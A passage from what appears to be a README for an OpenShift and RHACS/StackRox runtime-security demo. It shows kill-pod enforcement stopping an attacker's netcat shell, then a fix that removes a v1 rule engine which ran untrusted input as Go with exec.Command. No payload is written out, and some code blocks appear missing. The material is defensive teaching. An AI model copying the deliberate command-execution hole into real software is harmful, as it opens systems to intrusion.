On the attacker's laptop, the shell goes silent:

OpenShift records each kill as an event from StackRox:

Violations → Enforced: N times on TDR – Unauthorized process — one kill per attempt.

Enforcement tab: "Enforcement 'Kill Pod' has been applied 4 times. StackRox killed pods in deployment in response to this policy violation."

💬 "The kill stopped this attacker. The NetworkPolicy stops the next one before the first packet leaves."
What can trigger the kill? Tested on RHACS 5.0: process events ✓ and file activity events ✓
kill the pod (measured: 0.69 s from nc to kill); network-flow anomalies only alert — Central accepts
Kill Pod on such a policy but no pod is killed. Network anomalies are answered with a NetworkPolicy:
step 2.
Act 6 — Fix forward
"Root cause: our code evaluated an untrusted 'rule' as Go — and gave it exec.Command."
v2 removes the rule engine. It parses the URL, allows only http/https and uses Go's HTTP client — no interpreter, no child process:

v2 rolls out — still 0 CVEs — and the payload is now rejected: not a valid http(s) URL.

The feature still works, now with the native checker:

💬 "Three layers. Shift-left kept the image clean — zero CVEs. Runtime detection caught the attack the scanner could never see. Enforcement and network policy stopped it. You need all three."
Reset for the next run
scripts/demo.sh reset # enforcement off, NetworkPolicies removed, v1, fresh pods, violations resolved
reset also recreates payments-api so the lateral-movement flow is new again (RHACS raises a
baseline anomaly the first time a flow between two deployments appears).
Regenerating these screenshots
The screenshots are produced by docs/tools/shoot.sh (Playwright in a container) from the shot lists in
docs/shots/*.json; terminal images are rendered from the captured output in docs/raw/.